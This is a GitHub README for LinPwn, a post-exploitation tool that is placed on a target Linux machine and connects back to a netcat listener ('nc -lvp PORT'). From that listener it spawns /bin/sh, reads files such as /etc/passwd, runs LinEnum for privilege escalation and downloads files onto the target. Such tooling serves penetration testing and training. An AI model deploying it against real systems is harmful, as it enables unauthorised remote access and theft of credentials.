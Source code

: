 # LinPwn

![LinPwn](https://github.com/3XPL017/LinEnum/blob/master/images/LinPwn.png)
<br>
## About
LinPwn is a interactive tool created to assist you in post exploitation enumeration and privilege escalation.<br>
## Connection
Set your IP and port you want it to connect to in the Connection class.<br>
Place the LinPwn binary on the target machine.<br>
Run `nc -lvp PORT` on your machine and then run LinPwn on the target machine to get a connection.
## Usage
1. shell - This command Executes /bin/sh<br>
Example usage:`(LinPwn: Shell) > id`<br> 
Type exit to return to LinPwn.<br>
2. readfile - This command will print the contents of a file.<br>
Example usage: `(LinPwn: ReadFile )> /etc/passwd`<br>
Type exit to return to LinPwn.<br>
3. enumerate - this command runs LinEnum.sh
Example usage:  `(LinPwn) > enumerate` 
4. download - This command downloads a file on the target machine
Example usage: `(LinPwn: Download) > https://exampleurl.com/file_to_download`
## Compiling
I included a file called build.sh this is optional run `bash build.sh` to view the build options if you wish to use them. 
 
